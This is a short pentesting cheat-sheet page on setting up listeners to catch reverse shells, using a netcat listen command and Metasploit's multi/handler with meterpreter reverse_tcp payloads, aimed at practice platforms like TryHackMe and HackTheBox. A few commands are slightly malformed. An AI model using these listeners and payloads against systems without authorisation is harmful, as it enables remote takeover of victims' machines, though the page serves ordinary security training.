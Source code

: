 title: Listeners

# Listeners

## Netcat

Netcat / nc is great little utility. 

```
nc -lvnp {PORT}
```
* -l = Listen
* -v = Verbose Output 
* -n = Do not do any DNS look resolution 
* -p = Port Number ( Under 1024 will require root/sudo )

## Metasploit

Metasploit is a great framework & `meterpreter` is great shell with allot of functionality. 

To use Metasploit to listen for incoming shells we first need to run Metasploit

```
$ msfconsole
```

Once running you will need to choose `multi/handler` as the exploit to use

```
use exploit/multi/handler
```

By default the handler will use `generic/shell_reverse_tcp` as the payload, for `meterpreter` you will need to specify the correct payload depending on OS and `meterpreter` architecture deployed to the target.

* linux 32bit
```
set payload linux/x86/meterpreter/reverse_tcp
```
* linux 64bit
```
set payload linux/x64/meterpreter/reverse_tcp
```
* windows 32bit
```
* set payload windows/meterpreter/reverse_tcp
```
* windows 64bit
```
set windows/x64/meterpreter/reverse_tcp
```

**Required Options**

By default the handler will listen on port `4444` and your LAN IP Address. Normally leaving the port at `4444` is OK, if you do need to change it then you will need to use

```
set LPORT {PORT}
```

When using against targets on the local network the default `LHOST` value should be ok, however if using a VPN to connect to a platform like ***TryHackMe*** or ***HackTheBox*** then we will usually need to listen on the IP of the VPN connection. 

* To get your VPN address use the `ip` command with the device of your VPN ( usualy tun0 )

```
ip address show tun0
```

This will output the details of you VPN connection, you need to look for the `inet ` line which will show the IPv4 address of the device. 

```
4: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 100
    link/none 
    inet 10.x.x.x/16 brd 10.9.255.255 scope global tun0
       valid_lft forever preferred_lft forever
```

We can then set the `LHOST` option using 

```
set LHOST {IP-ADDRESS}
```

As a quick hack you can use the below command to output the `set` command with the correct VPN address

```
ip address show tun0 | grep -w inet | awk '{printf "set LHOST " $2}' | cut -f1 -d'/'
```
